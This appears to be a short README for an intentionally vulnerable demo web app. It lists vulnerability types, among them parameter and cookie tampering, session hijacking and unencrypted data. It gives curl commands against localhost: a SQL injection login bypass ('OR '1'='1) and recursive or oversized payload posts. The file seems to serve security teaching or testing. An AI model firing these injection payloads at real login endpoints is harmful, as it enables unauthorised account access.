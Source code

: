 Vulnerabilities:
 
0. Sensitive info saved unencrypted

1. Parameters tampering
 - Body params tampering
 - Cookie tampering 

2. SQL Injection
    curl --data "email=a' OR '1'='1&password=a' OR '1'='1" http://localhost:3000/sessions.json
asdasdasdasd
3. Coercive Parsing
 - Recursive Payloads
    curl --data @recursive.txt http://localhost:3000/sessions.json
 - Oversized Payloads
    curl --data @oversized.txt http://localhost:3000/sessions.json

4. Session Hijacking

